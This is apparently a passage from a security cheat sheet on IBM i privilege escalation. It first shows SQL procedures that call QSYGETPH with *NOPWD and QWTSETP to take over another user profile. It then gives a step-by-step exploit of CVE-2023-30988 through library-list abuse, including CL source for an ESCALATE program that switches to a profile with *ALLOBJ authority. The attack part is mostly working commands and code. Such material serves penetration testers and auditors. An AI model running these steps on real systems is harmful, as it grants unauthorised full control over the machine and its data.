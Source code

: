 **JDBC**:

```SQL
CREATE OR REPLACE PROCEDURE J_QSYGETPH (IN USERNAME VARBINARY(10), IN PASSWORD VARBINARY(10), OUT HANDLE VARBINARY(12)) EXTERNAL NAME QSYS.QSYGETPH LANGUAGE C++ GENERAL
CALL J_QSYGETPH('USERPROFILE', "*NOPWD", PROFILE_HANDLE)

CREATE OR REPLACE PROCEDURE J_QWTSETP (IN HANDLE VARBINARY(12)) EXTERNAL NAME QSYS.QWTSETP LANGUAGE C++ GENERAL
CALL J_QWTSETP(PROFILE_HANDLE)
```

### Unqualified Library Calls

> "applications that use library lists rather than qualified library names have a potential security exposure. A user who is authorized to the commands to work with library lists can potentially run a dierent version of a program." - [ibm.com/security-library-library-lists](https://www.ibm.com/docs/en/i/7.3?topic=security-library-library-lists)

| Code               | Check      |
| ------------------ | ---------- |
| CALL LIBFOO/OBJBAR | SECURE     |
| CALL OBJBAR        | VULNERABLE |

**Example**:

CVE-2023-30988: LIBL abuse, PATH abuse on IBM i - Lirbry List Exploitation

```SQL
DSPUSRPRF <user>               -- Display user profile
CRTLIB <user>                  -- Create library
STRSEU <user>/QCLSRC QFQSES    -- Show sources of QFQSES, 
                               -- require to compile it
                                PGM
                                    CALL QSYS/QCMD
                                ENDPGM

ADDLIBLE <user>                -- Add user to the libraries
DSPAUTUSR                      -- Display user profile
CALL QFAX/QFFSTRFCPP PARM(1 2) -- Call the vulnerable program
DSPAUTUSR                      -- Display user profile, QAUTPROF and QFAXMSF should be available
CALL <user>/ESCALATE QFAXMSF   -- Profile swapping
                               -- require to compile the ESCALATE program
                                PGM PARM(&USER)
                                    DCL VAR(&USER) TYPE(*CHAR) LEN(10)
                                    DCL VAR(&HANDLE) TYPE(*CHAR) LEN(12)
                                    DCL VAR(&ERROR) TYPE(*CHAR) LEN(4)
                                    CHGVAR VAR(%BIN(&ERROR)) VALUE(0)
                                    CALL PGM(QSYGETPH) PARM(&USER *NOPWD &HANDLE &ERROR)
                                    CHGVAR VAR(%BIN(&ERROR)) VALUE(0)
                                    CALL PGM(QWTSETP) PARM(&HANDLE &ERROR)
                                ENDPGM

DSPAUTUSR                      -- Should display all profiles
                               -- QFAXMSF has *ALLOBJ
```
